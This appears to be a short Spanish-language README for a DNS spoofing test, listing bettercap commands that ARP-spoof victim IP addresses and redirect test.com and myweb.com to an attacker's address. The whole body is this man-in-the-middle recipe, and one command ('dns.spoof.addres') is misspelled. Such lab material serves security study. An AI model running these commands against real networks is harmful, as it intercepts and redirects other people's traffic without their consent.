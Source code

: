 # Test DNS spoofing

## Preparar entorno

- Ejecutar betercap

```
sudo bettercap
```

- Agregar los Ip victimas
```
set arp.spoof.targets [IP_victima]
arp.spoof on
set dns.spoof.domains test.com,myweb.com
set dns.spoof.addres [IP_atacante]
dns.spoof on
```
